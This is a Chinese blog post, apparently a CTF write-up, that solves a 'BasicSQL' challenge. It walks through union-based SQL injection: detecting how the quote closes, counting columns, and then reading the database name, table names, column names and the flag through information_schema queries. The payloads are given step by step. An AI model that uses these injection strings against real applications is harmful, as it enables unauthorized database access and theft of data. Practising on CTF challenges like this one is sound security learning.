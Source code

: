 ```yaml
---
layout:     post
title:      2019-04-08 收获 总结
subtitle:   BasicSQL解题
date:       2019-04-08
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```



## 0x1 题目要求
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1vik0u1atj30gk0bamx3.jpg)
注：-[题目中的连接](http://123.207.149.64:23354/)
打开链接后的页面：
![](https://wx1.sinaimg.cn/mw1024/0079f8Holy1g1vik0vwimj30fx0epdfy.jpg)

## 0x2 解题步骤
解题的思路和步骤大多是根据这位-[大佬的博客](https://blog.csdn.net/huanghelouzi/article/details/82999684)来的

1. 首先判断sql语句闭合方式
在select输入框里输入：
```
hello'
```
页面出现错误。在select输入框里输入：
```
hello"
```
页面没出现错误，但是也没有查找出来内容。据此判断后端的sql语句为：
```
select xxxx from xxxx where select = 'input' 
```

2. 判断返回的列数
在select输入框里输入：
```
hello' order by 1 #
```
页面无错误，无查询结果。增大列数至，页面出现错误，据此判断查询的最大列数为3.后端返回前端的格式为：
```
hello' union select 1,2,3 #
```
输入这句话后的显示为：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1vik0uuylj30cj0bfmwy.jpg)
第一列没有显示，第二列和第三列分别为新闻名称和新闻内容。接下来就可以改变参数获取当前数据库名、用户名等数据了
3. 获取数据库信息
```
hello' union select 1,database(),user() #
```
![](https://wx2.sinaimg.cn/mw1024/0079f8Holy1g1vik0zjvbj30ca0bpmx4.jpg)
数据库名为user
4. 获取当前数据库的所有表名
```
hello' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())#
```
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1vik0uc6wj30n60acglg.jpg)
可见我们想要的flag存储在表f1agfl4gher3中
5. 获取f1agfl4gher3表中的全部列名
```
hello'  union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='f1agfl4gher3')#
```
结果：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1vik0vwybj30nb0ag744.jpg)
列h3r31sfl4g是我们想要的
6. 获取h3r31sfl4g列中的内容
```
hello'  union select  1,id,h3r31sfl4g from f1agfl4gher3#
```
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1vik0w7jxj30ev0akmwz.jpg)
flag得到了~
